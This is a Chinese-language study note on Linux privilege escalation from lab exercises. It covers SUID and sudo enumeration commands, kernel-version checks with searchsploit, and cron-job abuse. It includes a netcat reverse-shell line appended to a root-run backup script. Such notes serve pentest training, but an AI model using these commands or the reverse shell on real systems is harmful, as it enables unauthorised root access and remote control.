 suid命令提权查询：https://gtfobins.github.io/

```bash
sudo -l
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

## 提权操作

### 内核漏洞提权

具体案例可参考DC-3内核提权

1.查看发行版以及内核版本

```bash
cat /etc/issue
cat /etc/*-release

lsb_release -a
uname -a
```

2.kali查找漏洞

```
searchsploit ubuntu 16.04 4.4.x
searchsploit linux 3.10 CentOS Linux 7
```

### CronJobs提权

案例可见DC-7的提权

* https://shng.fun/posts/2021-01-23-%E5%AD%A6%E4%B9%A0-Linux%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95.html#%E5%9B%9B-cronjobs%E6%8F%90%E6%9D%83

Cron Jobs 是 Linux 系统中的「定时任务」，常被用来安排那些需要周期性执行的命令，例如定期备份数据、定期清理缓存等功能，因为使用到 cron 工具（crontab），因此被称作 Cron Jobs。

CronJobs 作为系统管理员最常用的功能之一，本身是非常棒的一个工具，但如果「定时任务」被设定为以更高的用户权限运行（例如 root 用户），则可能会被黑客利用来提权。

案例：

```bash
echo "mkfifo /tmp/bqro; nc 192.168.141.134 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
```

### SUID提权

suid全称是Set owner User ID up on execution。SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

常见的可用来提权的linux可执行文件如下：
